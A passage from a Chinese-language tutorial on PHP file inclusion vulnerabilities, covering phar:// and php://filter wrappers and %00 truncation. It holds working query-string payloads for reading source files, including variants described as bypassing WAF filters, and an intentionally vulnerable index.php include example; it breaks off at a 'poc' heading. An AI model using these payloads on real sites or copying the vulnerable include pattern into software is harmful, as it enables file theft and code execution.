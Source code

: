 4.4. phar://

4.4.1. poc

phar://...（当前脚本的绝对路径）.../1.zip/1.php

4.5. php://filter

php://filter 可以获取指定文件源码。当它与包含函数结合时，php://filter 流会被当作 php 文件行。所以我们一般对其进行编码，让其不执行。从而导致任意文件读取。

poc:

```
?file=php://filter/resource=xxx.php
或
?file=php://filter/read=convert.base64-encode/resource=xxx.php
或
?file=php://filter/convert.base64-encode/resource=xxx.php #可绕过过滤了操作名read的waf
或
?file=php://filter/read=convert.base64-encode/resource=xxx.php #可用重写resource绕过正则为"/resource=\*.jpg/i"的waf
```

4.6. 总结

php://input 和 data:// 可以注入任意代码; file://,zip://,zlib://,bzip2://,phar,php://filter 可用于读取文件, 可以结合文件上传漏洞进行利用。

5\. 文件包含漏洞的截断

5.1. %00 截断

5.1.1. 要求

0.  php 版本小于 5.3.4
    
1.  magic\_quotes\_gpc 为 off 状态
    

magic\_quotes\_gpc 为 on 状态时 %00 前会被自动加上一个反斜杠转义

5.1.2. 实例

index.php

```
<?php
if(empty($\_GET\["file"\])){
echo('../flag.php');
return;
}
else{
$filename='pages/'.(isset($\_GET\["file"\])?$\_GET\["file"\]:"welcome.txt").'.html';//限制了只能访问.html后缀名的文件,如果想访问.php后缀名的文件就需要截断后面的.html
include $filename;
}
?>
```

poc
